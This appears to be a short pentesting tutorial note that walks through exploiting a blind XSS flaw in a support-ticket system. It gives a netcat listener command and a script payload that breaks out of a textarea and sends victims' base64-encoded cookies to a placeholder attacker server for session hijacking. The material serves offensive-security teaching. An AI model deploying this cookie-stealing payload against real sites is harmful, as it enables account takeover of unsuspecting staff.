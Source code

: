 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [blind-xss](/knowledge/OffSec/pentesting/blind-xss.md) vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [XSS](/knowledge/OffSec/pentesting/XSS.md).

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [payload](/knowledge/OffSec/glossary/payload.md) to send sensitive content to our own server using [netcat](/knowledge/OffSec/tools/netcat.md).

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
